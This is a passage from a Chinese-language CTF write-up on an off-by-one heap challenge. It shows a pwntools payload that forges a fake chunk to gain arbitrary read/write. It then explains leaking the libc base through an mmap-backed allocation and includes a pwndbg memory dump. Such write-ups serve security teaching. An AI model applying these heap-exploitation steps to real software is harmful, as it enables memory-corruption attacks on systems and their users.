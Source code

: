 ![off-by-one-3](img\off-by-one-3.png)

这样就是实现 edit book1 修改 book2 指针地址，edit book2 修改任意地址

```python
log.success("book2_name_addr:"+hex(book1_addr+0x38))
log.success("book2_desc_addr:"+hex(book1_addr+0x40))
payload=p64(1)+p64(book1_addr+0x38)+p64(book1_addr+0x40)+p64(0xffff)
editbook(book_id_1,payload) 	# write fakechunk
```

##### 泄露 libc 地址 

前面我们已经获得了任意地址读写的能力，下面的操作是显而易见的，比如写 got 表劫持流程或者写 __malloc_hook 劫持流程等。但是这个题目特殊之处在于开启 PIE 并且没有泄漏 libc 基地址的方法，因此我们还需要想一下其他的办法。

这道题的巧妙之处在于在分配第二个 book 时，使用一个很大的尺寸，使得堆以 mmap 模式进行拓展。我们知道堆有两种拓展方式一种是 brk 会直接拓展原来的堆，另一种是 mmap 会单独映射一块内存。

在这里我们申请一个超大的块，来使用 mmap 扩展内存。因为 mmap 分配的内存与 libc 之前存在固定的偏移因此可以推算出 libc 的基地址。

```shell
pwndbg> x /4gx 0x0000555555758360
0x555555758360:	0x0000000000000002	0x00007ffff7fbc010
0x555555758370:	0x00007ffff7f9a010	0x0000000000021000
```
